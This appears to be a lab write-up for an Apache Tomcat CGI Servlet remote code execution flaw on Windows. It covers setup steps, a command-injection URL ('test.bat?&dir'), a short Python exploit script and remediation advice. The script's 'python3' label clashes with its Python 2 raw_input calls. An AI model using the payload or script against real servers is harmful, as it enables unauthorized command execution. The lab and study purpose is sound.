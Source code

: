 # PS
- Bug Overview: Apache Tomcat has a vulnerability in the CGI Servlet which can be exploited to achieve remote code execution (RCE). This is only exploitable when running on Windows in a non-default configuration in conjunction with batch files.
- Aim: Write a working exploit by which you can achieve RCE on the local VM.
- Install vulnerable service in a VM and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.

# Environment Setup:
1. Install a Java Runtime Environment (JRE) in Windows.
1. Download a vulnerable version of Tomcat and extract.
1. Modify the conf\context.xml file on line 19, to enable privileged context:
<Context privileged="true">
1.	Modify conf\web.xml to enable the CGI Servlet by removing the comments around line 387 as follows and adding the following parameters: 

``` html

<servlet><servlet-name>cgi</servlet-name>
<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
<init-param>
  <param-name>cgiPathPrefix</param-name>
  <param-value>WEB-INF/cgi</param-value>
</init-param>
<init-param>
  <param-name>executable</param-name>
  <param-value></param-value>
</init-param>
<init-param>
  <param-name>enableCmdLineArguments</param-name>
  <param-value>true</param-value>
</init-param>
<load-on-startup>5</load-on-startup>
</servlet>
```

1.	Enable the CGI servlet by removing comments around this – you also need to change the URL pattern to match the one in the previous step (“cgi”):
<servlet-mapping>
<servlet-name>cgi</servlet-name>
<url-pattern>/cgi/*</url-pattern>
</servlet-mapping>
1.	Create a folder for the CGI files:
 mkdir webapps\ROOT\WEB-INF\cgi
1.	Create any non empty bat file with valid commands.
1.	Run Tomcat via the following command:
cd bin
catalina run
1.	Trigger the following URLs and observe the dir command being run:	http://localhost:8080/cgi/test.bat?&dir
Or run the attached exploit code.
  
# Exploit Code:

```python3

import requests as re
base_url = raw_input("Enter url of the .bat cgi script: ")
while(True):
	command = raw_input("Enter the command: ")
	command = '&echo off'+'&echo.'+'&'+command
	r = re.get(base_url, params=command.replace(" ","+"))
	print(r.text)
```
  
# Remediation:
1.	Set `enableCmdLineArguements` to `False`.
1.	If above option is required then add additional parameter `cmdLineArgumentsDecoded` for proper input validation. 

